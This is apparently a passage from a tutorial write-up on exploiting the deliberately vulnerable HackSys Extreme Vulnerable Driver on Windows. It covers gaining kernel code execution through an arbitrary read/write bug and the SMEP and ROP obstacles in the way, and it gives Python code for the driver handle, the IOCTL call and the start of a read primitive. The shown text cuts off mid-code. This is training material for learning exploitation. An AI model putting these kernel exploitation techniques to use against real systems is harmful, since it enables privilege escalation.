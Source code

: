 My objective was to get arbitrary code execution with kernel privileges. In order to achieve this objective, I had to take care of some challenges:

- Find a way to use the arbitrary write to hijack the kernel execution flow;
- Make the kernel execute my shellcode. The SMEP is enabled, so I can't just make RIP point to a userland address;
- We can write only a single qword at a time, and different from exploiting a stack overflow, we don't have a stack ready to be filled with a ROP chain.


#### 0 - Exploit template

We will write our exploit in Python 3. Its easier than C and we don't need the whole VisualStudio package.

In order to interact with the device driver, we should use some Windows APIs like `CreateFileA` and `DeviceIoControl`. Below you can see how I implemented this part of the exploit:

```python
# Get a handle to the HEVD device driver
def get_device_handle():
    handle = windll.kernel32.CreateFileA(
        b'\\\\.\\HackSysExtremeVulnerableDriver', 
        GENERIC_READ | GENERIC_WRITE,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        None,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL | FILE_FLAG_OVERLAPPED,
        None
    )

    return handle


# Interact with the device driver using IOCTL_ARBITRARY_WRITE
def do_ioctl(handle, buffer_ptr):
    bytes_returned = c_ulong()
    buffer_len = 16

    windll.kernel32.DeviceIoControl(
        handle,
        IOCTL_ARBITRARY_WRITE,
        buffer_ptr,
        buffer_len,
        None,
        0,
        byref(bytes_returned),
        None)

```

As already explained, we have an Arbitrary Read and an Arbitrary Write vulnerability. Lets abstract the exploitation of them in two functions, so we can easily use them later:

```python
# Exploit the vulnerability to read from arbitrary addresses
def read(where: int):
    device_handle = get_device_handle()

    if device_handle == -1:
        print('Error while getting handle to driver: {0}'.format(GetLastError()))
        return 1
    
    class WRITE_WHAT_WHERE(Structure):
        _fields_ = [
            ('What', c_ulonglong),
            ('Where', c_ulonglong)
```